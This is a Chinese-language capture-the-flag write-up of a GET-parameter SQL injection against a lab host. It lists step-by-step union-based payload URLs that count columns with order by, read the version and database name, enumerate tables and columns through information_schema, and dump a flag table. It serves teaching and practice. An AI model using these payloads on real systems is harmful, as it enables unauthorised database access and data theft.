






普通的GET注入
1. 题目明确是GET注入

链接中给出gid，从这里下手
2. 首先判断是否存在注入点，一般先进行单引号测试

服务器回显错误，判断存在SQL注入漏洞
3. 使用order by语句猜测字段数
playload: http://192.168.247.133/pentest/test/sqli/sqltamp.php?gid=1' order by 1/2/3/4 –+
我们都知道#是sql语句中的注释符，在该符号以后的语句不会被执行。
后台的sql查询语句可能是这样的
$id=$_GET[‘id’]$sql=”SELECT * FROM users WHERE id=’$id’
构造playload时，使用’将后台sql语句中的第一个单引号闭合，然后只需要将sql语句中的第二个单引号注释掉就可以了。
这时后台查询语句相当于$sql=”SELECT * FROM users WHERE id=’gid=1’ order by 4 #’
这里构造playload时之所以不用 # 而用 –+ 是因为get与post请求注释符有所区别。#是sql语句的注释符，+在http请求中表示空格，但在http请求时会进行url的转义，因此get、post请求到后端语句会与预想的不同。这里为get请求，可以采取 –+ 或者直接使用 # 转义后的%23。


经过测试，发现 order by 4 时页面返回正常，order by 5 时页面返回错误，由此断定字段数为4。
4. 猜数据库库名
使用数据库系统信息函数VERSION()获取版本号，DATABASE()获取数据库库名
playload: http://192.168.247.133/pentest/test/sqli/sqltamp.php?gid=1'and 1=2 union select 1,2,version() ,database() –+
union: sql的联合查询语句，要求两个集合必须有相同的列数，因此在union后的select语句中也需要查询4个字段。
“and 1=2”的作用是将前面的sql语句置为FALSE(false and false = false)，这样就只返回union后的查询结果。

得到数据库版本为5.5.53，库名为pentesterlab。
5. 猜表名
使用information_schema.tables查询pentesterlab中的表名
playload: http://192.168.247.133/pentest/test/sqli/sqltamp.php?gid=1'and 1=2 union select 1,2,table_name,4 from information_schema.tables where table_schema=’pentesterlab’ –+

发现库中有个表叫flag，作为目标
6. 猜flag表中的列名
使用group_concat(column_name)查询表flag中所有的列名
playload: http://192.168.247.133/pentest/test/sqli/sqltamp.php?gid=1'and 1=2 union select 1,2,
group_concat(column_name),4 from information_schema.columns where table_name=’flag’–+

得到id、flag列
7. 查询flag列中的内容
playload: http://192.168.247.133/pentest/test/sqli/sqltamp.php?gid=1'and 1=2 union select 1,2,id,flag from flag –+

得到flag：204f704fbbcf6acf398ffee11989b377